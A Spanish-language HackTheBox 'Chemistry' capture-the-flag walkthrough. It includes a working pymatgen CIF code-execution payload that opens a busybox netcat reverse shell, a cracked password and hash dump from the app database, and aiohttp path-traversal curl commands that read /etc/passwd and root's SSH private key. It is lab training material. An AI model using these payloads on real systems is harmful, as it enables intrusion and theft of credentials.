

# Tutorial de Chemistry de HackTheBox en Español


Vamos a empezar la máquina realizando un escaneo de todos los puertos `TCP`.

```
nmap -p- -sS --min-rate 5000 -n -Pn 10.129.235.159

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-22 17:18 CET
Nmap scan report for 10.129.235.159
Host is up (0.048s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
5000/tcp open  upnp

Nmap done: 1 IP address (1 host up) scanned in 15.11 seconds
```

El escaneo nos reporta que están abiertos los puertos 22 y 5000. Vamos a comprobar que servicios están corriendo por detrás.

```
nmap -p 22,5000 -sVC 10.129.235.159 -oN nmap/services.nmap

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-22 17:23 CET
Nmap scan report for 10.129.235.159
Host is up (0.057s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b6:fc:20:ae:9d:1d:45:1d:0b:ce:d9:d0:20:f2:6f:dc (RSA)
|   256 f1:ae:1c:3e:1d:ea:55:44:6c:2f:f2:56:8d:62:3c:2b (ECDSA)
|_  256 94:42:1b:78:f2:51:87:07:3e:97:26:c9:a2:5c:0a:26 (ED25519)
5000/tcp open  upnp?
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/3.0.3 Python/3.9.5
|     Date: Fri, 22 Nov 2024 16:23:39 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 719
|     Vary: Cookie
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="UTF-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <title>Chemistry - Home</title>
|     <link rel="stylesheet" href="/static/styles.css">
|     </head>
|     <body>
|     <div class="container">
|     class="title">Chemistry CIF Analyzer</h1>
|     <p>Welcome to the Chemistry CIF Analyzer. This tool allows you to upload a CIF (Crystallographic Information File) and analyze the structural data contained within.</p>
|     <div class="buttons">
|     <center><a href="/login" class="btn">Login</a>
|     href="/register" class="btn">Register</a></center>
|     </div>
|     </div>
|     </body>

...etc...
```

En el puerto 22 hay un servidor `ssh` y en el 5000 lo que parece un servidor `HTTP`.

Vamos a entrar en el puerto `5000` desde un navegador.


Vamos a registrarnos.


Al registrarnos, entramos en un `Dashboard` que nos pide un archivo `CIF`.



Buscando vulnerabilidades relacionadas con este tipo de archivos encontramos la [CVE-2024-23346](https://www.vicarius.io/vsociety/posts/critical-security-flaw-in-pymatgen-library-cve-2024-23346).

Vamos a copiarnos el `POC` y a cambiarle el comando por un ping a nuestra ip para saber si está funcionando.

```
data_5yOhtAoR
_audit_creation_date            2018-06-08
_audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"

loop_
_parent_propagation_vector.id
_parent_propagation_vector.kxkykz
k1 [0 0 0]

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("ping -c 1 10.10.14.90");0,0,0'


_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```

Mientras capturaremos los paquetes `ICMP` para ver si nos llega el ping.

```
tcpdump -i tun0 icmp

tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
19:58:04.441986 IP 10.129.235.159 > 10.10.14.90: ICMP echo request, id 2, seq 1, length 64
19:58:04.442015 IP 10.10.14.90 > 10.129.235.159: ICMP echo reply, id 2, seq 1, length 64
^C
2 packets captured
2 packets received by filter
0 packets dropped by kernel
```

Nos ha llegado, vamos ahora a mandarnos una reverse shell.

Tras unos intentos de entablarnos una reverse shell, descubrimos que solo es posible con el payload de `busybox nc 10.10.14.90 1234 -e /bin/bash`, para ver tipos típicos de reverse shell podeis visitar la página: https://www.revshells.com.

```
data_5yOhtAoR
_audit_creation_date            2018-06-08
_audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"

loop_
_parent_propagation_vector.id
_parent_propagation_vector.kxkykz
k1 [0 0 0]

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("busybox nc 10.10.14.90 1234 -e /bin/bash");0,0,0'


_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```

Nos ponemos en escucha con netcat para recibir la reverse shell.

```
nc -lnvp 1234

listening on [any] 1234 ...
connect to [10.10.14.90] from (UNKNOWN) [10.129.235.159] 45512
ls
app.py
instance
static
templates
uploads
```

Nos ha llegado la reverse shell. Vamos a listar los usuarios en la máquina con una shell, que normalmente acaba en "sh".

```
cat /etc/passwd | grep -E 'sh$'

root:x:0:0:root:/root:/bin/bash
rosa:x:1000:1000:rosa:/home/rosa:/bin/bash
app:x:1001:1001:,,,:/home/app:/bin/bash
```

Ya sabiendo los usuarios vamos a leer la base de datos de la aplicación, para ver si se reutiliza alguna credencial con la del sistema.

```
sqlite3 instance/database.db

SQLite version 3.31.1 2020-01-27 19:55:54
Enter ".help" for usage hints.
sqlite> .tables
structure  user
sqlite> select * from user;
1|admin|2861debaf8d99436a10ed6f75a252abf
2|app|197865e46b878d9e74a0346b6d59886a
3|rosa|63ed86ee9f624c7b14f1d4f43dc251a5
```

Hay un usuario `rosa` una contraseña hasheada. Comprobaremos si está en la base de datos de crackstation.


Está, la contraseña en texto claro es `unicorniosrosados`. Vamos a intentar autenticarnos como `rosa` con esta credencial.

```
su rosa
Password: unicorniosrosados
```

Como rosa podemos leer la flag del usuario.

```
cd
cat user.txt
```

Vamos a ver que servicios están corriendo internamente.

```
ss -tln

State    Recv-Q   Send-Q     Local Address:Port     Peer Address:Port  Process  
LISTEN   0        4096       127.0.0.53%lo:53            0.0.0.0:*              
LISTEN   0        128              0.0.0.0:22            0.0.0.0:*              
LISTEN   0        128              0.0.0.0:5000          0.0.0.0:*              
LISTEN   0        128            127.0.0.1:8080          0.0.0.0:*              
LISTEN   0        128                 [::]:22               [::]:*
```

Hay un servidor en el puerto `8080` (puerto que suele usarse para pruebas de HTTP). Para verlo en un navegador en nuestra máquina local haremos un tunel con ssh.

```
ssh -L 80:localhost:8080 rosa@10.129.235.159
```

Ahore nuestro puerto `80` equivale al puerto `8080`de la máquina víctima. Vamos a visitar el servicio.


Vemos un dashboard de monitorización de la empresa, con ganancias y servicios corriendo en la máquina.

Para detectar las tecnologías que está utilizando el servidor http por detrás, ejecutaremos el script `whatweb`.

```
whatweb 127.0.0.1

http://127.0.0.1 [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[Python/3.9 aiohttp/3.9.1], IP[127.0.0.1], JQuery[3.6.0], Script, Title[Site Monitoring]
```

Está utilizando `aiohttp/3.9.1`, "un framework cliente/servidor HTTP asíncrono para asyncio y Python".

Buscando vulnerabilidades para esta versión de esta tecnología, encontramos la [CVE-2024-23334](https://www.cve.org/CVERecord?id=CVE-2024-23334). Esta vulnerabilidad consiste en un path traversal, y consiste en a partir de un directorio estático simplemente concatenar los `../` como una ruta.

Para comprobar que se está aconteciendo esta vulnerabilidad, vamos a probar a leer el `/etc/passwd`.

```
curl --path-as-is http://127.0.0.1/assets/../../../../../../etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin

...etc...
```

Ha funcionado, para aprovechar esto para escalar privilegios intentaremos leer la clave privada de ssh de root.

```
curl --path-as-is http://127.0.0.1/assets/../../../../../../root/.ssh/id_rsa -o id_rsa_root
```

Le damos los permisos adecuados a la clave.

```
chmod 600 id_rsa_root
```

Y nos conectamos con la clave obtenida.

```
ssh root@10.129.235.159 -i id_rsa_root
```

Ya podemos leer la flag de root.

```
cd
cat root.txt
```

Si te ha parecido útil, considera dejar una estrella al proyecto. Gracias y mucha suerte en tus próximas máquinas ❤️.